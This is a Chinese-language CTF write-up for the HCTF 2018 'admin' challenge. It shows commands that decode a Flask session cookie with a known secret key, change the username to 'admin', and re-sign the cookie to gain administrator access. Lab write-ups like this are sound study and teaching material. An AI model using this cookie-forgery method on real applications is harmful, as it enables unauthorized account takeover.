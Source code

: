 ### [HCTF 2018]admin

---

随便注册一个账号

![image-20241011215558037](https://gitee.com/bx33661/image/raw/master/path/image-20241011215558037.png)

```
<!-- you are not admin -->
```

我们发现session，那现在xueyao

在change代码界面找到源代码的github地址,解码：

```python
PS E:\gitcode\flask-session-cookie-manager-1.2.1.1\flask-session-cookie-manager-1.2.1.1> python flask_session_cookie_manager3.py decode -s "ckj123" -c ".eJw9UMuKwjAU_ZXhrl30pQvBhRIndCC3tKSGm41ora251oF2BjXiv09xwPV5nwdsj309tDA_7s5DPYHt6QDzB3zsYQ7WNbfMoFOOPfnyZkV6tzpNsMNOOYqU3LQoywR9HlpZ3slVAUoVo6ZpJjhQWkWjziuXJ9blsZWFUyKNM0OJFc2N3Oo8aq_o1x59FY_sQMk0UL65ZrqZkj6wMp9tJuieibUnU8akqxDdMrEGGfXYQ3OEolrAcwLV0B-3P99cX94TyHEwRnuM1glFaWx1E5EumMymQ9Gy1V9sXcFW5lflV2cyaUD54mV36nZN_XbKL7iplv_IZdeNADDzbDaDCfwOdf86DsIQnn_9ZWzO.ZwkvZA.WqHSn3iY9Y0siqmVfZ69q2NQso8"
{'_fresh': False, '_id': b'f819cc293c51d22e286cf2660ea4e8745de2b744c7569894136c53248f47ddc0279f8d81b0e7407137773f40b4380989a7d1aa862813ae7a75608ecd53f19647', 'csrf_token': b'b94f437a8cb7e86a4daef48de2df4ddd030eab4a', 'image': b'BsUp', 'name': 'kkk666', 'user_id': '11'}
```

编码：

```python
PS E:\gitcode\flask-session-cookie-manager-1.2.1.1\flask-session-cookie-manager-1.2.1.1> python flask_session_cookie_manager3.py encode -s 'ckj123' -t "{'_fresh': False, '_id': b'f819cc293c51d22e286cf2660ea4e8745de2b744c7569894136c53248f47ddc0279f8d81b0e7407137773f40b4380989a7d1aa862813ae7a75608ecd53f19647', 'csrf_token': b'b94f437a8cb7e86a4daef48de2df4ddd030eab4a', 'image': b'BsUp', 'name': 'admin', 'user_id': '11'}"
.eJw9UMuKwjAU_ZXhrl305UZwocQJHcgtlbThZiO178R2wM6gjfjvUxxwfd7nAafmWk8dbJriMtUrOPUVbB7wcYYNaNPeE4VGGOvIZXfN4lnLOMIBB2EoEDzvkGcRutTXPJvJlB5yEaKkdcKsJ6QIFp0TJo20SUPNj0awOEwURZq1dzL7y6K9oTs4dGW4sD3BY0-49pbIdk2yskJ9dgmjOWEHRyoLSZY-ml2kFVqUSw9pA2TlFp4rKKdrc_r5tvX4nkDGeku0w-AQURCHWrYByaMllQ_IOqvll9XmaDVPb8LtL6Rij9Lty64firZ-O6Uj5uXuHxmLYQGgqIZ-hBX8TvX19Rv4Pjz_AJhNbPQ.ZwkwQQ.j5yClHogHshbwpaniLOkHLBE6us
```

访问index界面

![image-20241011220516456](https://gitee.com/bx33661/image/raw/master/path/image-20241011220516456.png)